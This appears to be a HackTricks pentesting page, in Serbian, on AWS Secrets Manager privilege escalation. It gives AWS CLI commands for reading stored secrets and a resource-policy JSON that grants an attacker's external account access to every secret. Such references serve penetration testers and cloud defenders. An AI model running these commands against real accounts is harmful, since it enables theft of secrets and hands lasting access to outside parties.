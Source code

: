 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Za više informacija o secrets manageru pogledajte:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

Napadač sa ovom dozvolom može dobiti **sačuvanu vrednost unutar tajne** u AWS **Secretsmanager**.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Potencijalni uticaj:** Pristup visoko osetljivim podacima unutar AWS secrets manager servisa.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

Sa prethodnim dozvolama moguće je **dati pristup drugim principalima/računima (čak i spoljnim)** da pristupe **tajni**. Imajte na umu da da bi se **pročitali tajne šifrovane** KMS ključem, korisnik takođe mora imati **pristup KMS ključu** (više informacija na [KMS Enum stranici](../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../banners/hacktricks-training.md}}
